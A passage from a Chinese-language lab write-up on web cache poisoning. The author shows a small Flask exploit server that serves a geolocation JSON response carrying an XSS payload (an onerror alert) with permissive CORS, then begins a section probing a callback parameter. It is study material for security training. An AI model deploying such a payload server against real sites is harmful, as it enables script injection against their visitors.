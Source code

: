 在自己的vps上也写了一个exp。但是可能是实验环境的限制，没有加载成功。

```python
from flask import Flask, jsonify

app = Flask(__name__)


@app.route('/resources/json/geolocate.json')
def root():
    t = {
        'country': '<img src=a onerror=alert(document.domain)>'
    }
    return jsonify(t), 200, [("Access-Control-Allow-Origin", "*")]

if __name__ == '__main__':
    app.debug = True
    app.run(host='0.0.0.0',port=4445)
```





### 3.8 畸形请求导致投毒

本实验是通过不规范的HTTP请求导致的投毒攻击，首先查看主页，其中callback函数是需要注意的问题，

![image-20210222141653763](../images/pics/web缓存投毒攻击/image-20210222141653763.png)

单独访问`js/geolocate.js?callback=setCountryCookie`，修改callback的值，返回内容也会改变。但是callback的值是cache key。没有办法利用。

![image-20210222142043129](../images/pics/web缓存投毒攻击/image-20210222142043129.png)

![image-20210222142632400](../images/pics/web缓存投毒攻击/image-20210222142632400.png)
